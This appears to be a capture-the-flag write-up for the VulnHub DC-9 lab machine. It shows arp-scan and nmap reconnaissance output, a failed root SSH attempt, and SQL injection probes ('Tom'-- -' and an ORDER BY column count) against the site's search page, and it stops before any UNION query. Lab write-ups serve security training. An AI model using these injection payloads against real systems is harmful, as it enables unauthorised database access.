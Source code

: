 ```yaml
---
published: true
---
```

Hello All , This Is my write up for DC: 9 Machine 
Machine Link :https://www.vulnhub.com/entry/dc-9,412/


First we will Make Network Discovery to Discover Machine IP 

- ┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
- └─# arp-scan --interface eth0 192.168.162.0/24
- Interface: eth0, type: EN10MB, MAC: 00:0c:29:7b:1a:0c, IPv4: 192.168.162.135
- Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
- 168.162.2	00:50:56:ed:94:06	VMware, Inc.
- 168.162.1	00:50:56:c0:00:08	VMware, Inc.
- **192.168.162.136	00:0c:29:6c:2b:1b	VMware, Inc.**
- 168.162.254	00:50:56:fc:2a:c4	VMware, Inc
.


Machine ip is 192.168.162.136


## Scanning:
- **> _┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
- └─#  nmap -sV -p- -sC -A 192.168.162.136                                                                                                                              127 ⨯
- Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 20:56 EDT
- Nmap scan report for 192.168.162.136
- Host is up (0.00077s latency).
- Not shown: 65533 closed ports
- PORT   STATE    SERVICE VERSION
- 22/tcp filtered ssh
- 80/tcp open     http    Apache httpd 2.4.38 ((Debian))
- |http-server-header: Apache/2.4.38 (Debian)
- |http-title: Example.com - Staff Details - Welcome
- MAC Address: 00:0C:29:6C:2B:1B (VMware)
- Device type: general purpose
- Running: Linux 3.X|4.X
- OS CPE: cpe:/o:linux:linuxkernel:3 cpe:/o:linux:linuxkernel:4
- OS details: Linux 3.2 - 4.9
- Network Distance: 1 hop
- 
- TRACEROUTE
- HOP RTT     ADDRESS
- 1   0.77 ms 192.168.162.136
- 
- OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ ._
- Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds**


we Found ports SSH , HTTP are open

SSH 
try to connect ssh 
┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
└─# ssh 192.168.162.136
The authenticity of host '192.168.162.136 (192.168.162.136)' can't be established.
ECDSA key fingerprint is SHA256:o2Ii/WX152zZCRlVrfXpNnX8mvNwYfOWhkMscAr+sMs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.162.136' (ECDSA) to the list of known hosts.
root@192.168.162.136's password: 
Permission denied, please try again.
root@192.168.162.136's password: 

found we need a password )


HTTP 
we found sql injection in search page 

Tom'-- -
![img1]({{site.baseurl}}/_posts/1.png)



tring to detect columns number to run UNION query...
found that they are 6 columns   ### Tom' ORDER BY 6-- -
